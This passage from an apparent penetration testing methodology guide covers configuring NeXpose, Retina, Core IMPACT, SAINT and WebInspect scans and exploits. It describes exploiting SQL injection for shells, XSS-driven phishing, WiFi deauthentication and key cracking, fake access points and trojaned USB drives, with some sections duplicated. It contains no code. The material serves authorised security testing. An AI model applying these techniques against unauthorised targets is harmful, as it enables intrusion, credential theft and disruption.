| If the scanner has been updated within the last week, you can safely
  conduct scans. If this date is further out than one week, you should
  immediately report this and void using the scanner until NeXpose has
  been updated.

| Within NeXpose, there are six main tabs available: Home, Assets,
  Tickets, Reports, Vulnerabilities, and Administration.
| ''' `Screenshot Here <:File:Penetration_Testing_Execution_77.png>`__
  '''

| To initiate a scan you will have to setup a 'New Site'. To perform
  this click on the 'New Site' button at the bottom of the Home Page or
  click on the Assets tab.
|  `Screenshot Here <:File:Penetration_Testing_Execution_78.png>`__

| This will present you with the 'Site Configuration - General' page
  which contains several inputs such as Site name, Site importance, and
  Site Description.
| `Screenshot Here <:File:Penetration_Testing_Execution_79.png>`__

Type a name for the target site. Then add a brief description for the
site, and select a level of importance from the dropdown list. The
importance level corresponds to a risk factor that NeXpose uses to
calculate a risk index for each site. The 'Very Low' setting reduces a
risk index to 1/3 of its initial value. The 'Low' setting reduces the
risk index to 2/3 of its initial value. 'High' and 'Very High' settings
increase the risk index to 2x and 3x times its initial value,
respectively. A 'Normal' setting does not change the risk index.

''' `Screenshot Here <:File:Penetration_Testing_Execution_80.png>`__ '''

Go to the ''Devices ''page to list assets for your new site. IP
addresses and/or hostnames can be manually entered in the text box
labeled *Dev*\ i\ *ces to scan*. It is also possible to import a comma
separated file that lists IP address and/or the host names of targets
you want to scan. You do have to ensure that each address/hostname in
the file appears on its own line.

To import a target list file, click the Browse''' '''button in the
'''Included Device's' ''area, and select the appropriate file.

If you need to exclude targets from a scan, the process is the sample
however; it is performed under the area labeled *'Devices to Exclude'.*

Once the targets have been added, a scan template will need to be
selected from the '''Scan Setup' ''page. To select a scan template
simply browse the available templates. The scan engine drop down allows
you to choose between the local scan engine and the Rapid 7 hosted scan
engine.

|
|  `Screenshot Here <:File:Penetration_Testing_Execution_81.png>`__
| There are many templates available, however be aware that if you
  modify a template, all sites that use that scan template will use
  these modified settings. So ensure that modify an existing template
  with caution.

The default scan templates Denial of Service, Discovery scan, Discovery
scan (aggressive), Exhaustive, Full audit, Internal DMZ audit, Linux
RPMs, Microsoft hotfix, Payment Card Industry (PCI) audit, Penetration
test, Safe network audit, Sarbanes-Oxley (SOX) compliance, SCADA audit,
and Web audit. Specific settings for these templates are included in
Appendix D

Finally, if you wish to schedule a scan to run automatically, click the
check box labeled 'Enable schedule'. The console displays options for a
start date and time, maximum scan duration in minutes, and frequency of
repetition. If the scheduled scan runs and exceeds the maximum specified
duration, it will pause for an interval that you specify in the option
labeled 'Repeat every'. Select an option for what you want the scan to
do after the pause interval.

The newly scheduled scan will appear in the 'Next Scan' column of the
'Site Summary' pane of the page for the site that you are creating. All
scheduled scans appear on the 'Calendar' page, which you can view by
clicking the 'Monthly calendar' link on the 'Administration' page.

You can set up alerts to inform you when a scan starts, stops, fails, or
matches a specific criterion.

From the '''Alerting; ''page and click the ''''New Alert' '''button.

`Screenshot Here <:File:Penetration_Testing_Execution_82.png>`__

The console displays a '''New Alert' ''dialog box. Click the ''''Enable
alert' '''check box to ensure that NeXpose generates this type of alert.
You can click the box again at any time to disable the alert if you
prefer not to receive that alert temporarily without having to delete
it.

`Screenshot Here <:File:Penetration_Testing_Execution_83.png>`__

Type a name for the alert and a value in the 'Send at most' field if you
wish to limit the number of this type of alert that you receive during
the scan. Select the check boxes for types of events (Started, Stopped,
Failed, Paused, and Resumed) that you wish to generate alerts for.
Select the Confirmed, Unconfirmed, and/or Potential check boxes to
receive only those alerts. Select a notification method from the
dropdown box. NeXpose can send alerts via SMTP e-mail, SNMP message, or
Syslog message. Select e-mail method and enter the addresses of your
intended recipients. Click the Limit alert text check box to send the
alert without a description of the alert or its solution. Click the Save
button. The new alert appears on the 'Alerting' page.

`Screenshot Here <:File:Penetration_Testing_Execution_84.png>`__

Establishing logon credentials enables deeper checks across a wider
range of vulnerabilities, such as policy violations, adware, or spyware.
Additionally, credentialed scans result in more accurate results. On the
'Credentials' page click 'New Login' display the 'New Login' box.

`Screenshot Here <:File:Penetration_Testing_Execution_85.png>`__

Select the desired type of credentials from the dropdown list labeled
'Login type'. This selection determines the other fields that appear in
the form. In the appropriate field enter the appropriate user name
and/or password. The 'Restrict to Device' and 'Restrict to Port' fields
allows for testing credentials to ensure that the work on a given site.
After filling those fields, click on the 'Test login' button to make
sure that the credentials work. Specifying a port in the Restrict to
Port field allows you to limit your range of scanned ports in certain
situations. Click the 'Save' button. The new credentials appear on the
'Credentials' page.

Once the scan has completed, you can view the results in several
manners. It is possible to view the assets by sites, view assets by
groups, view assets by operating systems, view assets by services, view
assets by software, and view all assets.

`Screenshot Here <:File:Penetration_Testing_Execution_86.png>`__

|
| By selecting the appropriate assets view you can select the results
  that you wish to view.

`Screenshot Here <:File:Penetration_Testing_Execution_87.png>`__

To create a report, click on the 'Create Site Report' button. This will
take you to the 'New Report' 'Configuration' page.

`Screenshot Here <:File:Penetration_Testing_Execution_88.png>`__

Report configuration entails selecting a report template, assets to
report on, and distribution options. You may schedule automatic reports
for generation and distribution after scans or on a fixed calendar
timetable; or you may run reports manually. After you go through all the
following configuration steps and click 'Save', NeXpose will immediately
start generating a report.

eEYE Retina
'''''''''''

eEye Retina Vulnerability Assessment Scanner is a vulnerability scanner
created by eEye Digital Security that is used to correlate and validate
findings from Nmap and Nessus.

At first glance, the interface looks to be much more complicated than
Nessus. It is however, extremely simple once you've explored it. The
initial screen that is presented is the Discovery Tasks page. This is
utilized to perform a discovery scan to determine what hosts are alive.

''' `Screenshot Here <:File:Penetration_Testing_Execution_89.png>`__ '''

To perform a Discovery Scan, click Targets from the Actions section and
the "Select Targets" option will appear. At this point you can either
enter in a single IP address or hostname that you assess. The other
options available are to scan by IP Range, CIDR, Named Host, and Address
Groups.

Clicking on the Options Actions section presents us with additional
options related to the Discovery scan. These options include ICMP
Discovery, TCP Discovery on Ports (enter in a comma separated list of
port numbers, UPD Discovery, Perform OS Detection, Get Reverse DNS, Get
NetBIOS Name, and Get MAC Address. Select the appropriate options for
the scan desired.

''' `Screenshot Here <:File:Penetration_Testing_Execution_90.png>`__ '''

To run the Discovery scan immediately click "Discover." To run the
Discovery scan at a later point in time or on a regular schedule, click
"Schedule." Retina displays your results in the Results table as it
scans the selected IP(s). In order to get the results in a format that
we can use, we need to select the scan results and click "Generate" to
export the results in XML format.

''' `Screenshot Here <:File:Penetration_Testing_Execution_91.png>`__ '''

While Discovery Scans may be useful, the majority of our tasks will take
place in the Audit Interface. This is very similar to the Discovery Scan
interface; however it does have a few more options.

''' `Screenshot Here <:File:Penetration_Testing_Execution_92.png>`__ '''

The Targets section is similar though there is an additional section
that allows us to specify the Output Type, Name, and Job Name.

''' `Screenshot Here <:File:Penetration_Testing_Execution_93.png>`__ '''

| This section is important to complete, as this is how the scan results
  will be saved. If you do not change this information then you could
  potentially overwrite someone else's scan results. By default, these
  are saved to the following directory:

::

    C:\Program Files\eEye Digital Security\Retina 5\Scans

This is important to note, as you will need to copy these from this
location to your working directory.

At this point we need to click Ports from the Actions section and the
"Select Port Group(s)" option will appear. At this point we need to
validate that the "All Ports" option has been selected.

''' `Screenshot Here <:File:Penetration_Testing_Execution_94.png>`__ '''

The next section we need to check is "Audits" from the Actions section
and the "Select Audit Group(s)" option will appear. At this point we
need to validate that the "All Audits" option has been selected.

''' `Screenshot Here <:File:Penetration_Testing_Execution_95.png>`__ '''

The final section we need to check is "Options" from the actions
section. Clicking on this will present us with the "Select Options"
action section.

''' `Screenshot Here <:File:Penetration_Testing_Execution_96.png>`__ '''

At this point we need to validate that the following option has been
selected:

-  Perform OS Detection
-  Get Reverse DNS
-  Get NetBIOS Name
-  Get MAC Address
-  Perform Traceroute
-  Enable Connect Scan
-  Enable Force Scan
-  Randomize Target List
-  Enumerate Registry via NetBIOS
-  Enumerate Users via NetBIOS
-  Enumerate Shares via NetBIOS
-  Enumerate Files via NetBIOS
-  Enumerate Hotfixes via NetBIOS.
-  Enumerate Named Pipes via NetBIOS
-  Enumerate Machine Information via NetBIOS
-  Enumerate Audit Policy via NetBIOS
-  Enumerate Per-User Registry Settings via NetBIOS
-  Enumerate Groups via NetBIOS
-  Enumerate Processes via NetBIOS
-  Enumerate a maximum of 100 users

At this point we are ready to actually perform the Audit Scan. Click the
Scan button to start the Audit Scan immediately. To perform the scan at
a later point in time or on a regular schedule, click "Schedule."

''' `Screenshot Here <:File:Penetration_Testing_Execution_97.png>`__ '''

\ *Note:*\  Automated tools can sometimes be too aggressive by default
and need to be scaled back if the customer is affected.

The results of your scan are automatically saved in .rtd format.

Retina displays your results in the Results table as it scans the
selected IP(s).

''' `Screenshot Here <:File:Penetration_Testing_Execution_98.png>`__ '''

Qualys
''''''

<Contribution Needed>

Core IMPACT
'''''''''''

Core IMPACT is a penetration testing and exploitation toolset used for
testing the effectiveness of your information security program. Core
IMPACT automates several difficult exploits and has a multitude of
exploits and post exploitation capabilities.

Core IMPACT Web


Core can exploit SQL injection, Remote File Inclusion and Reflected
Cross Site Scripting flaws on vulnerable web applications.

''' `Screenshot Here <:File:coreWEBrpt.jpg>`__ '''

1) Information Gathering. As always, the first step information
gathering. Core organizes web attacks into scenarios. You can create
multiple scenarios and test the same application with varying settings,
segment a web application, or to separate multiple applications. a)
Select the target, either by providing a url or telling Core to choose
web servers discovered during the network RPT b) Choose a method for
exploring the site, automatic or interactive.

With automatic crawling, select the browser agent, max pages and depth,
whether it should follow links to other/or to include other domains,
whether it should run test to determine the server/application
framework, whether to evaluate javascript, check robots.txt for links,
and how it should handle forms. For greater customization, you can also
select a link parsing module and set session parameters.

''' `Screenshot Here <:File:coreWEBcrawl.jpg>`__ '''

With interactive, you set your îbrowserî to use Core as a proxy and then
navigate through the web application. Further customized discovery
modules like checking for backup and hidden pages are available on the
modules tab.

''' `Screenshot Here <:File:corerptmodules.jpg>`__ '''

2) Web Attack and penetration.

The attack can be directed to a scenario or individual pages. Each type
of exploit has its own configuration wizard. SQL Injection tests can be
performed on request parameters and/or request cookies. There are three
different levels of injection attacks FAST: quickly runs the most common
tests, NORMAL: runs the tests that are in the FAST plus some additional
tests FULL: runs all tests (for details on what the difference tests
check for, select the modules tab, navigate to the Exploits \| SQL
Injection section and view the contents of the SQL Injection Analyzer
paying attention to the fuzz\_strings). Adding information about known
custom error pages and any session arguments will enhance testing. For
XSS attacks, configure the browser XSS should be tested for, whether or
not to evaluate POST parameters and whether to look for Persistent XSS
vulnerabilities. For PHP remote file injection vulnerabilities, the
configuration is either yes try to exploit or no, donít. Monitor the
module progress in the Executed Modules pane. If the WebApps Attack and
Penetration is successful, then Core Agents (see note on agents in Core
network RPT) will appear under vulnerable pages in the Entity View.

3) Web Apps Browser attack.

Can leverage XSS exploits to assist with Social Engineering awareness
tests. The wizard will guide the penetration tester though the process
of leveraging the XSS vulnerability to your list of recipients from the
client side information gathering phase.

4) Web App Local Information Gathering.

Will check for sensitive information, get database logins and get the
database schema for pages where SQL was successfully exploited. Command
and SQL shells may also be possible.

''' `Screenshot Here <:File:coreWEBagendeployed.jpg>`__ '''

The RFI agent(PHP) can be used to gather information, for shell access,
or to install the full Core Agent.

5) Report Generation. Select from a variety of reports like executive,
vulnerability and activity reports.

Core Onestep Web RPTs Core also has two one-step rapid penetration tests
1) WebApps Vulnerability Test Type in the web application and Core will
attempt to locate pages that contain vulnerabilities to SQL Injection,
PHP Remote File Inclusion, or Cross-site Scripting attacks. This test
can also be scheduled. 2) WebApps Vulnerability Scanner Validator

Core will try to confirm vulnerabilities from IBM Rational AppScan, HP
WebInspect, or NTOspider scans.

Core IMPACT WiFi


Core Impact contains a number of modules for penetration testing an
802.11 wireless network and/or the security of wireless clients. In
order to use the wireless modules you must use an AirPcap adapter
available from www.cacetech.com.

''' `Screenshot Here <:File:corewireless.jpg>`__ '''

1) Information Gathering. Select the channels to scan to discover access
points or capture wireless packets.

2) Wireless Denial of Service The station deauth module can be used to
demonstrate wireless network disruption. It is also used to gather
information for encryption key cracking.

3) Crack Encryption Keys. Attempt to discover and crack WEP and WPA/WPA2
PSK encryption keys. For WPA/WPA2, relevant passwords files from
recognizance phase should be used.

4) Man in the Middle client attacks. Allows penetration tester to sniff
wireless traffic, intercept or manipulate requests to gain access to
sensitive data or an end user system. Leverage existing wireless network
from steps one and two, or setup fake access points with the Karma
Attack.

5) Reporting. Reports about all the discovered WiFi networks , summary
information about attacks while using a Fake Access Point and results of
Man In The Middle (MiTM) attacks can be generated.

Core IMPACT Client Side


Core Impact can perform controlled and targeted social engineering
attacks against a specified user community via email, web browsers,
third-party plug-ins, and other client-side applications.

''' `Screenshot Here <:File:coreCSrpt.jpg>`__ '''

1) As always, the first step information gathering. Core Impact has
automate modules for scraping email addresses our of search engines (can
utilize search API keys), PGP, DNS and WHOIS records, LinkedIn as well
as by crawling a website, contents and metadata for Microsoft Office
Documents and PDFs , or importing from a text file generated using
source as documented in the intelligence gather section of the PTES. 2)
With the target list complete, the next step is to create the attack.
Core supports multiple types of attacks, including single exploit,
multiple exploits or a phishing only attack

''' `Screenshot Here <:File:coreCSattacktype.jpg>`__ ''' ''' `Screenshot
Here <:File:coreCSsingle.jpg>`__ ''' ''' `Screenshot
Here <:File:coreCSmulti.jpg>`__ ''' ''' `Screenshot
Here <:File:coreCSphish.jpg>`__ '''

Depending on which option is chosen the wizard will walk you through
choosing the exploit, setting the duration of the client side test, and
choosing an email template (note: predefined templates are available,
but message should be customized to match target environment!) .Web
links can be obfuscated using tinyURL, Bit.Ly or Is.gd. After setting
the options for the email server the Core Agent connect back method
(HTTP, HTTPS, or other port), and choosing whether or not to run a
module on successful exploitation or to try to collect smb credentials,
the attack will start. Specific modules can be run instead of using the
wizard by choosing the modules tab

''' `Screenshot Here <:File:corerptormodules.jpg>`__ '''

Monitor the Executed Modules pane to see the progress of the client side
attack. As agents are deployed, they will be added to the network tab.
See the network RPT section of the PTES for details on completing the
local information gathering, privilege escalation and clean up tasks.

Once the client side attack is complete, detailed reporting of the
client side phishing/exploitation engagement can be generated.

It is also possible to create a trojaned USB drive that will
automatically install the Core agent.

''' `Screenshot Here <:File:coreCSusb.jpg>`__ '''

Core Web


Core can exploit SQL injection, Remote File Inclusion and Reflected
Cross Site Scripting flaws on vulnerable web applications. '''
`Screenshot Here <:File:coreWEBrpt.jpg>`__ '''

1) Information Gathering. As always, the first step information
gathering. Core organizes web attacks into scenarios. You can create
multiple scenarios and test the same application with varying settings,
segment a web application, or to separate multiple applications. a)
Select the target, either by providing a url or telling Core to choose
web servers discovered during the network RPT b) Choose a method for
exploring the site, automatic or interactive.

``   With automatic crawling, select the browser agent, max pages and depth, whether it should follow links to other/or to include other domains, whether it should run test to determine the server/application framework, whether to evaluate javascript, check robots.txt for links, and how it should handle forms. For greater customization, you can also select a link parsing module and set session parameters.``

coreWEBcrawl


With interactive, you set your ”browser” to use Core as a proxy and then
navigate through the web application. Further customized discovery
modules like checking for backup and hidden pages are available on the
modules tab. ''' `Screenshot Here <:File:corerptmodules.jpg>`__ '''

2) Web Attack and penetration. The attack can be directed to a scenario
or individual pages. Each type of exploit has its own configuration
wizard. SQL Injection tests can be performed on request parameters
and/or request cookies. There are three different levels of injection
attacks FAST: quickly runs the most common tests, NORMAL: runs the tests
that are in the FAST plus some additional tests FULL: runs all tests
(for details on what the difference tests check for, select the modules
tab, navigate to the Exploits \| SQL Injection section and view the
contents of the SQL Injection Analyzer paying attention to the
fuzz\_strings). Adding information about known custom error pages and
any session arguments will enhance testing. For XSS attacks, configure
the browser XSS should be tested for, whether or not to evaluate POST
parameters and whether to look for Persistent XSS vulnerabilities. For
PHP remote file injection vulnerabilities, the configuration is either
yes try to exploit or no, don’t. Monitor the module progress in the
Executed Modules pane. If the WebApps Attack and Penetration is
successful, then Core Agents (see note on agents in Core network RPT)
will appear under vulnerable pages in the Entity View.

3) Web Apps Browser attack. Can leverage XSS exploits to assist with
Social Engineering awareness tests. The wizard will guide the
penetration tester though the process of leveraging the XSS
vulnerability to your list of recipients from the client side
information gathering phase.

4) Web App Local Information Gathering. Will check for sensitive
information, get database logins and get the database schema for pages
where SQL was successfully exploited. Command and SQL shells may also be
possible. ''' `Screenshot Here <:File:coreWEBagendeployed.jpg>`__ '''
The RFI agent(PHP) can be used to gather information, for shell access,
or to install the full Core Agent.

5) Report Generation. Select from a variety of reports like executive,
vulnerability and activity reports.

Core Onestep Web RPTs


Core also has two one-step rapid penetration tests 1) WebApps
Vulnerability Test Type in the web application and Core will attempt to
locate pages that contain vulnerabilities to SQL Injection, PHP Remote
File Inclusion, or Cross-site Scripting attacks. This test can also be
scheduled. 2) WebApps Vulnerability Scanner Validator Core will try to
confirm vulnerabilities from IBM Rational AppScan, HP WebInspect, or
NTOspider scans.

Core WiFi


Core Impact contains a number of modules for penetration testing an
802.11 wireless network and/or the security of wireless clients. In
order to use the wireless modules you must use an AirPcap adapter
available from www.cacetech.com. 1) Information Gathering. Select the
channels to scan to discover access points or capture wireless packets.

2) Wireless Denial of Service The station deauth module can be used to
demonstrate wireless network disruption. It is also used to gather
information for encryption key cracking.

3) Crack Encryption Keys. Attempt to discover and crack WEP and WPA/WPA2
PSK encryption keys. For WPA/WPA2, relevant passwords files from
recognisance phase should be used.

4) Man in the Middle client attacks. Allows penetration tester to sniff
wireless traffic, intercept or manipulate requests to gain access to
sensitive data or an end user system. Leverage existing wireless network
from steps one and two, or setup fake access points with the Karma
Attack.

5) Reporting. Reports about all the discovered WiFi networks , summary
information about attacks while using a Fake Access Point and results of
Man In The Middle (MiTM) attacks can be generated.

SAINT
'''''

SAINT Professional is a commercial suite combining two distinct tools
rolled into one easy to use management interface; SAINTscanner and
SAINTexploit providing a fully integrated vulnerability assessment and
penetration testing toolkit.

SAINTscanner is designed to identify vulnerabilities on network devices,
OS and within applications. It can be used for compliance and audit
testing based on pre-defined and custom policies. In addition as a data
leakage prevention tool it can enumerate any data that should not be
stored on the network. SAINTexploit is designed to exploit those
vulnerabilities identified by SAINTscanner, with the ability to carry
out bespoke social engineering and phishing attacks also. One a host or
device has been exploited it can be utilised to tunnel through to other
vulnerable hosts. SAINT can either be built from source or be run from a
pre-configured virtual machine supplied by the vendor. If the latter is
used (recommended) simply double clicking the icon will launch the
suite. By default the password is “SAINT!!!” The default web browser
opens after SAINT auto updates to the following URL: http://\ :52996/
Screenshot Here SAINT\_startup.png refers (included).

SAINTscanner


Once logged in you immediately enter the SAINTscanner page with the
Penetration Testing (SAINTXploit) tab easily available and visible. It
is possible to login remotely to SAINT, by default this is over port
1414 and has those hosts allowed to connect have to be setup via
Options, startup options, Category remote mode, subcategory host
options: Screenshot Here SAINT\_Remote\_host.png refers (included).
Configuration of scanning options should now be performed which is
accessed by Options, scanning options, Category scanning policy. Each
sub category needs to be addressed to ensure that the correct default
scanning parameters are set i.e. using nmap rather than the in-built
SAINT port scanner and which ports to probe, that dangerous checks are
disabled (if required) and that the required items for compliance and
audit are enabled for reporting i.e. anti-virus, age of definition check
etc. Screenshot Here SAINT\_scanning\_options.png refers (included).
Note: - The target restrictions sub-category should be amended if any
hosts are not to be probed. The most import scanning option is Category
Scanning policy, sub-category probe options, option, what scanning
policy should be used, the scan required is selected or a custom policy
built-up to suit the actual task Screenshot here
SAINT\_policy\_setup.png refers (included). Having configured all the
options required the actual process of carrying out a scan can be
addressed. Step 1 Insert IP Range/ Address or Upload Target List Step 2
Type in credentials Screenshot here SAINT\_scansetup1.png refers
(included). Step 3 Select Scan Policy Type Step 4 Determine Firewall
settings for Target Step 5 Select Scan Now Screenshot here
SAINT\_scansetup2.png refers (included).

SAINTexploit


Different levels of penetration tests can be carried out:

Discovery - Identify hosts. Information Gathering - Identify hosts,
probe and port scan. Single Penetration - Both above then exploits
stopping at first successful exploit. Root Penetration - Exploit then
Privilege escalation to admin/ root. Full Penetration - Exploits as many
vulnerabilities as possible. Web Application - Attacks discovered web
applications.

Conducting a test is fairly straight forward, once any prior
configuration has been carried out, callback ports, timeouts etc. Just
select the Pen Test icon then go through the following 4 steps. Once
complete select run pen test now.

Step 1 Insert IP Range/ Address or Upload Target List Step 2 Type in
credentials

Screenshot here SAINT\_pen1.png refers (included).

Step 3 Select Penetration Test Type Step 4 Determine Firewall settings
for Target

SAINT\_pen2.png Screenshot here SAINT\_pen2.png refers (included).

Once a host has been successfully exploited, navigating to the
connections tab provides the ability to directly interact with the
session. SAINTexploit provides four useful tools in this tab to allow
interactive access to the session and a disconnect button to close any
outstanding connection:

Command Prompt. File and Upload Manager. Screenshot Taker Tunnel.

Screenshot here SAINT\_connections.png refers (included) The File
Manager gives the ability to perform numerous actions. This is opened
via the connections tab, providing the ability to upload/ download/
rename files. Screenshot here SAINT\_filemgr.png refers (included) A
Command Prompt can be utilised on an exploited host, the tool is opened
via the connections tab, all DOS/Bash type commands that are applicable
to the target OS can be ran. Screenshot here SAINT\_cmd.png refers
(included) The Screenshot Tool can be used against an exploited host to
grab a screenshot for the report. Screenshot here SAINT\_screen.png
refers (included) Varied other tools that can be utilised against the
host, i.e. grabbing password hashes and many others can be accessed and
executed via the exploits icon, tools option.

Custom Client Side attacks These can be performed by using the exploits
icon, selecting exploits, expanding out the client list and clicking on
the appropriate exploit that you wish to utilise against the client (run
now) Screenshot here SAINT\_client1.png refers (included) Select, port
the client is to connect to, the shell port and the target type.
Annotate any specific mail from and to parameters Screenshot here
SAINT\_client2.png refers (included) Type in the subject, either select
a predefined template and alter the message to suit Screenshot here
SAINT\_client3.png refers (included) A sample pre-defined template is
available which looks very realistic Screenshot here SAINT\_client4.png
refers (included) Selecting run now will start the exploit server
against the specified target host Screenshot here SAINT\_client5.png
refers (included) If a client click the link in the email they have just
been sent, and they are exploitable, the host will appear in the
connections tab and can then be interacted with as above.

SAINTwriter


SAINTwriter is a component of SAINT that allows you to generate a
variety of customised reports. SAINTwriter features eight pre-configured
reports, eight report formats (HTML, Frameless HTML, Simple HTML, PDF,
XML, text, tab-separated text, and comma-separated text), and over 100
configuration options for custom reports.

To generate a report

Step 1 From the SAINT GUI, go to Data, and from there go to SAINTwriter.
Step 2 Read the descriptions of the pre-configured reports and select
the one which best suits your needs. Screenshot here SAINT\_writer.png
refers (included). A sample report is available here and here
SAINT\_report1.pdf and SAINT\_report2.pdf refer (included)

Web Application Scanners
^^^^^^^^^^^^^^^^^^^^^^^^

General Web Application Scanners
''''''''''''''''''''''''''''''''

WebInspect (Windows)


HP's WebInspect application security assessment tool helps identify
known and unknown vulnerabilities within the Web application layer.
WebInspect can also help check that a Web server is configured properly,
and attempts common web attacks such as parameter injection, cross-site
scripting, directory traversal, and more

When you first start WebInspect, the application displays the Start
Page. For this page we can perform the five major functions within the
WebInpsect GUI. The options are to start a Web Site Assessment, start a
Web Service Assessment, start an Enterprise Assessment, generate a
Report, and start Smart Update. From the Start Page, you can also access
recently opened scans, view the scans that are scheduled for today and
finally, view the WebInspect Messages.

''' `Screenshot Here <:File:Penetration_Testing_Execution_99.png>`__ '''

The first scan that is performed with WebInspect is the Web Site
Assessment Scan. WebInspect makes use of the New Web Site Assessment
Wizard to setup the assessment scans.

''' `Screenshot Here <:File:Penetration_Testing_Execution_100.png>`__
'''

When you start the New Scan wizard, the Scan Wizard window appears. The
options displayed within the wizard windows are extracted from the
WebInspect default settings. The important thing to note is that any
changes you make will be used for this scan only.

In the Scan Name box, enter a name or a brief description of the scan.
Next you need to select one an assessment mode. The options available
are Crawl Only, Crawl and Audit, Audit Only, and Manual. The "Crawl
Only" option completely maps a site's tree structure. It is possible
after a crawl has been completed, to click "Audit" to assess an
application's vulnerabilities. "Crawl and Audit" maps the site's
hierarchical data structure, and audits each page as it is discovered.
This should be used when assessing extremely large sites. "Audit Only"
determines vulnerabilities, but does not crawl the web site. The site is
not assessed when this option is chosen. Finally, "Manual" mode allows
you to navigate manually to sections of the application. It does not
crawl the entire site, but records information only about those
resources that you encounter while scanning a Site manually navigating
the site. Use this option if there are credentialed scans being
performed. Also, ensure that you embed the credentials in the profile
settings.

''' `Screenshot Here <:File:Penetration_Testing_Execution_101.png>`__
'''

It is recommended to crawl the client site first. This allows the
opportunity to identify any forms that need to be filtered during the
audit as well as identify directories/file names (in some cases, even
the profiler) that need to be ignored for a scan to complete.

Once you have selected the assessment mode, you will need to select the
assessment type. There are four options available, Standard Assessment,
List-Driven Assessment, Manual Assessment, and Workflow-Driven
Assessment. The Standard Assessment type consists of automated analysis,
starting from the target URL. This is the normal way to start a scan.
Manual Assessment allows you to navigate manually to

whatever sections of your application you choose to visit, using
Internet Explorer. List-Driven Assessment performs an assessment using a
list of URLs to be scanned. Each URL must be fully qualified and must
include the protocol (for example, http:// or https://). Workflow-Driven
Assessment: WebInspect audits only those URLs included in the macro that
you previously recorded and does not follow any hyperlinks encountered
during the audit.

As discussed earlier, Standard Assessment will normally be used for the
initial scans. If this is the choice you've selected you will need to
type or select the complete URL or IP address of the client's site to be
examined. When you enter a URL, it must be precise. For example, if you
entering client.com will not result in a scan of www.client.com or any
other variations. To scan from a specific point append a starting point
for the scan, such as http://www.client.com/clientapplication/. By
default, scans performed by IP address will not follow links that use
fully qualified URLs.

''' `Screenshot Here <:File:Penetration_Testing_Execution_102.png>`__
'''

Select "Restrict to folder" to limit the scope of the assessment to the
area selected. There are three options available from the drop-down
list.

''' `Screenshot Here <:File:Penetration_Testing_Execution_103.png>`__
'''

The choices are Directory only, Directory and subdirectories, and
Directory and parent directories. Choosing the "Directory only" option
will force a crawl and/or audit only for the URL specified. The
"Directory and subdirectories" options will crawl and/or audit at the
URL specified as well as subordinate directories. It will not access any
directory than the URL specified. The "Directory and parent directories"
option will crawl and/or audit the URL you specified, but will not
access any subordinate directories.

Once you have selected to appropriate options, click Next to continue.

If the target site needs to accessed through a proxy server, select
Network Proxy and then choose an option from the Proxy Profile list. The
default is to Use Internet Explorer. The other options available are
Autodetect, Use PAC File, Use Explicit Proxy Settings, and Use Mozilla
Firefox. Autodetect uses the Web Proxy Autodiscovery Protocol (WPAD) to
locate a proxy autoconfig file and use this to configure the browser's
Web proxy settings. Use PAC File loads proxy settings from a Proxy
Automatic Configuration (PAC) file. Use Explicit Proxy Settings allows
you to specify proxy server settings. Use Mozilla Firefox imports the
proxy server information from Firefox.

''' `Screenshot Here <:File:Penetration_Testing_Execution_104.png>`__
'''

Selecting to use browser proxy settings does not guarantee that you will
be able to access the Internet through a particular proxy server. If the
Internet Explorer settings are configured to use a proxy that is not
running, then you will not be able to access the site to begin the
assessment. For this reason, it is always recommended to check the prosy
settings of the application you have selected.

Select Network Authentication if server authentication is required. Then
choose the specific authentication method and enter your network
credentials. Click Next to continue.

The Coverage and Thoroughness options are not usually modified, unless
you are targeting an Oracle site.

`Screenshot Here <:File:Penetration_Testing_Execution_105.png>`__

To optimize settings for an Oracle site, select Framework and then
choose the site type from the Optimize scan for list. Use the Crawl
slider to specify the crawler settings.

If enabled, the slider allows you to select one of four crawl positions.
The options are Thorough, Default, Normal, and Quick. The specific
settings are as follows:

Thorough uses the following settings:

-  Redundant Page Detection: OFF
-  Maximum Single URL Hits: 20
-  Maximum Web Form Submissions: 7
-  Create Script Event Sessions: ON
-  Maximum Script Events Per Page: 2000
-  Number of Dynamic Forms Allowed Per Session: Unlimited
-  Include Parameters In Hit Count: True

Default uses the following settings:

-  Redundant Page Detection: OFF
-  Maximum Single URL Hits: 5
-  Maximum Web Form Submissions: 3
-  Create Script Event Sessions: ON
-  Maximum Script Events Per Page: 1000
-  Number of Dynamic Forms Allowed Per Session: Unlimited
-  Include Parameters In Hit Count: True

Normal uses the following settings:

-  Redundant Page Detection: OFF
-  Maximum Single URL Hits: 5
-  Maximum Web Form Submissions: 2
-  Create Script Event Sessions: ON
-  Maximum Script Events Per Page: 300
-  Number of Dynamic Forms Allowed Per Session: 1
-  Include Parameters In Hit Count: False

Quick uses the following settings:

-  Redundant Page Detection: ON
-  Maximum Single URL Hits: 3
-  Maximum Web Form Submissions: 1
-  Create Script Event Sessions: OFF
-  Maximum Script Events Per Page: 100
-  Number of Dynamic Forms Allowed Per Session: 0
-  Include Parameters In Hit Count: False

Select the appropriate crawl position and click Next to continue.

''' `Screenshot Here <:File:Penetration_Testing_Execution_106.png>`__
'''

Ensure that the select Run Profiler Automatically box is checked. Click
Next to continue.

''' `Screenshot Here <:File:Penetration_Testing_Execution_107.png>`__
'''

At this point the scan has been properly configured. There is an option
to save the scan settings for later use. Click Scan to exit the wizard
and begin the scan.

As soon as you start a Web Site Assessment, WebInspect displays in the
Navigation pane an icon depicting each session. It also reports possible
vulnerabilities on the Vulnerabilities tab and Information tab in the
Summary pane. If you click a URL listed in the Summary pane, the program
highlights the related session in the Navigation pane and displays its
associated information in the Information pane. The relative severity of
a vulnerability listed in the Navigation pane is identified by its
associated icon.

`Screenshot Here <:File:Penetration_Testing_Execution_108.png>`__

|
| When conducting or viewing a scan, the Navigation pane is on the left
  side of the WebInspect'' ''window. It includes the Site, Sequence,
  Search, and Step Mode buttons, which determines view presented.

When conducting or viewing a scan, the Information pane contains three
collapsible information panels and an information display area. Select
the type of information to display by clicking on an item in one of
three information panels in the left column.

The Summary pane has five tabs: Vulnerabilities, Information, Best
Practices, Scan Log, and Server Information. The Vulnerabilities Tab
lists all vulnerabilities discovered during an audit. The Information
Tab lists information discovered during an assessment or crawl. These
are not considered vulnerabilities, but simply identify interesting
points in the site or certain applications or Web servers. The Best
Practices Tab lists issues detected by WebInspect that relate to
commonly accepted best practices for Web development. Items listed here
are not vulnerabilities, but are indicators of overall site quality and
site development security practices (or lack thereof).

The Scan Log Tab is used to view information about the assessment. For
instance, the time at which certain auditing was conducted against the
target. Finally, the Server Information Tab lists items of interest
pertaining to the server.

''' `Screenshot Here <:File:Penetration_Testing_Execution_109.png>`__
'''

The final step is to export the results further analysis. To export the
results of the analysis to an XML file, click File, then Export. This
